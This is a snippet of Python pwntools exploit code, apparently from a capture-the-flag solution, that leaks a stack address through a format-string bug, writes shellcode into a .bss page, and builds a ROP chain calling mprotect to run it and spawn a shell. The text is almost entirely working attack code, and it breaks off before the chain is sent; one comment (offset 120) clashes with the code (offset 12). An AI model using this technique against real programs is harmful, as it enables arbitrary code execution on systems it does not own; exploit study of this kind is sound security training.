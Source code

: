 ```python

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

def write_fmt(data):
    io.sendline(b"2")
    io.sendline(data)

def write_payload(area, shellcode):
    www = dict()
    for i in range(0, len(shellcode), 8):
        chunk = u64(shellcode[i:i+8].ljust(8, b"\x00"))
        www[area + i] = chunk
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, www))

def exp():
    
    # Leaking return address

    pwn.log.info("Leaking stack address")
    
    write_fmt(b"%p")
    io.recvuntil(b"crire : ")
    debug = io.recvline()
    leak = int(debug.decode("utf-8"), 16)

    saved_rip = leak + rip_offset
    pwn.log.info(f"Saved RIP @ {hex(saved_rip)}")

    # Writing shellcode on a .bss section's page, the `120` is added to avoid the badchar `\n` being present in the format string payload

    payload_page = align_ptr(bss)
    payload_area = payload_page + 12

    pwn.log.info(f"Writing shellcode @ {hex(payload_area)}")
    write_payload(payload_area, shellcode)

    # Mprotecting the .bss section's page and jumping on it

    www = {saved_rip : pop_rdi,
    saved_rip +  8 : payload_page,
    saved_rip + 16 : pop_rsi,
    saved_rip + 24 : 0x1000,
    saved_rip + 32 : pop_rdx_rbx,
    saved_rip + 40 : 0x7,
    saved_rip + 56 : mprotect,
    saved_rip + 64 : payload_area,
    }

    pwn.log.success("Building Mprotect's ROP chain and shelling a shell")
```